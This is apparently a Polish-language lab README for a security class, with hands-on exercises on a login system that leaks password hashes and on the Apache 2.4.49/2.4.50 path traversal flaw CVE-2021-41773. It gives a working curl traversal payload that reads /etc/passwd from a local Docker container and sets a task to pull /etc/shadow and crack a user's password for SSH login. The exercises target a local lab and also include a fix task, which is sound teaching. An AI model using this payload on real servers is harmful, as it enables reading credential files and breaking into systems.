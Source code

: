 # __Przygotowanie Środowiska__
- **[Docker Desktop](https://www.docker.com/products/docker-desktop/)**

Docker to platforma do tworzenia, uruchamiania i zarządzania kontenerami oprogramowania. Kontenery to lekkie, samodzielne jednostki oprogramowania, które zawierają wszystko, czego potrzeba do uruchomienia aplikacji, w tym kod, biblioteki, zależności i pliki konfiguracyjne.

- **[John the Ripper](https://www.openwall.com/john/) | [Hashcat](https://hashcat.net/hashcat/)**

<br><br>

# __Hash od Serwera__

Jest to luka utworzona poprzez zwykły ludzki błąd przy projektowaniu systemu logowania. Serwer zamiast sprawdzać prawidłowość hasła u siebie to sprawdza po stronie klienta, przez co atakujący w łatwy sposób może wykorzystać te informacje by złamać hasło.

## **Zaczynamy**:

1. Należy uruchomić serwer oraz client

    **Uruchamianie Klienta:**
    
    Wejdź do katalogu client a następnie wykonaj poniższe komendy:

        ```
        npm ci
        npm start
        ```

    **Uruchamianie Serwera:*
    
    Wejdź do katalogu server a następnie wykonaj poniższe komendy:
    
        ```
        npm ci
        npm start
        ```

2. Teraz uruchom bazę danych w dokerze za pomocą komendy (należy znajdować się w folderze zawierającym plik "docker-compose.yaml"):
    ```
    docker compose up
    ```
## **Zadanie 1**
Zdobądź hash hasła do użytkownika admin, a następnie złam za pomocą dowolnego narzędzia. Zauważ, że przy próbie logowania na konto danego uzytkowika serwer zwraca ci hash jego hasła. Spróbuj go podglądnąć przy pomocy Burpa czy też innych narzędzi. Następnie przy pomocy Johnnego czy Hashcata spróbuj złamać wykradziony hasz. Rozwiązaniem jest hasło w postaci jawnej


## **Zadanie 2**
Korzystając z wiedzy zdobytej podczas prezentacji oraz na innych zajęciach, popraw aplikację, tak aby do porównywania haszy dochodziło w odpowiednim miejscu. Czyli:
1. Porównywanie haszy powinno następować bezpośrednio po pobraniu haszu z bazy danych.
2. Serwer nie może pobranego z bazy danych haszu zwracać w odpowiedzi do klienta.




<br><br>

# __Path Traversal__

Path Traversal to poważna luka w zabezpieczeniach, która może być wykorzystywana przez hakerów do uzyskania nieautoryzowanego dostępu do systemu lub do wykonania nieautoryzowanych poleceń na zdalnym komputerze.

**<u>Podana luka została znaleziona w serwerze Apache 2.4.49 oraz 2.4.50 i nazwana [CVE-2021-41773](https://nvd.nist.gov/vuln/detail/CVE-2021-41773)</u>**

**Apache** to darmowe, otwartoźródłowe i wieloplatformowe oprogramowanie serwera WWW wydane na licencji Apache License 2.0. Oprogramowanie jest utrzymywane i rozwijane przez organizację non profit Apache Software Foundation.

Podatność **Path Travesal** występuje jeśli serwer posiada następującą konfiguracją

```console
<Directory />
Require all granted
</Directory>
```

W tym przypadku ustawienie `Require all granted` oznacza, że wszyscy użytkownicy mają mieć dostęp do plików i katalogów.


<br>
<br>

## **Zaczynamy**:

1. Należy uruchomić kontener komendą

```console
docker run -p 8090:80 -p 22:22 gekonisko/path-traversal
```

Kontener wystawia dwa port

- http[80]: http://localhost:8090
- ssh[22]: agh@localhost

<br>

2. Korzystając z narzędzi curl, postam, burp itp. wyślij następujące zapytanie

```console
 curl http://localhost:8090/cgi-bin/.%2e/.%2e/.%2e/.%2e etc/passwd
```

Serwer powinien zwrócić zawartość pliku `/etc/passwd` zawierający również specjalne konto **agh**

```console
…
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:105::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
agh:x:1000:1000:,,,:/home/agh:/bin/bash
```

## **Zadanie 3**

Serwer ma wystawiony również protokół SSH, twoim zadaniem jest zalogowanie się na użytkownika agh przez protokół ssh `ssh agh@localhost`. Wykorzystaj plik `etc/shadow` aby wyciągnąć hasło użytkownika agh.

